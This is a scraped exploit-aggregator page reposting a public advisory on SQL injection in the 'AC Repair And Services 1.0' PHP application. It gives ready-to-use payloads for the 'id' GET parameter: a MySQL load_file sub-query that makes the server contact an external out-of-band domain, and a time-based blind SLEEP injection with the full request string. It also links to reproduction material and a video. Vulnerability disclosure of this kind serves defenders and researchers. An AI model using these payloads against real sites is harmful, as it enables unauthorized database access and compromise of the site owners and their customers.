 ```yaml
---
title: AC Repair And Services 1.0 SQL Injection exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:172070&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-05-02
fetch_date: 2025-10-04T11:38:39.331479
---
```


# AC Repair And Services 1.0 SQL Injection exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for AC Repair And Services 1.0 SQL Injection

2023-05-01 | CVSS 6.9

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:172070
## Title: AC Repair and Services-2023-1.0 Multiple-SQLi
## Author: nu11secur1ty
## Date: 05.01.2023
## Vendor: https://github.com/oretnom23
## Software: https://www.sourcecodester.com/sites/default/files/download/oretnom23/php-acrss.zip
## Reference: https://portswigger.net/web-security/sql-injection

## Description:
The `id` parameter appears to be vulnerable to SQL injection attacks.
The payload '+(select
load_file('\\\\ik6wj36vs4uyp5d7amwk4tdsdjjc739r0uolbcz1.namaikatiputkatatupa.com\\cbc'))+'
was submitted in the id parameter. This payload injects a SQL
sub-query that calls MySQL's load_file function with a UNC file path
that references a URL on an external domain. The application
interacted with that domain, indicating that the injected SQL query
was executed.

STATUS: HIGH Vulnerability

[+]Payload:
```mysql
---
Parameter: id (GET)
Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: page=services/view_service&id=1'+(select
load_file('\\\\ik6wj36vs4uyp5d7amwk4tdsdjjc739r0uolbcz1.namaikatiputkatatupa.com\\cbc'))+''
AND (SELECT 6992 FROM (SELECT(SLEEP(3)))eeOg) AND 'PsSH'='PsSH
---

```

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/oretnom23/2023/AC-Repair-and-Services-2023-1.0)

## Proof and Exploit:
[href](https://streamable.com/pfigvu)

## Time spend:
01:00:00
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)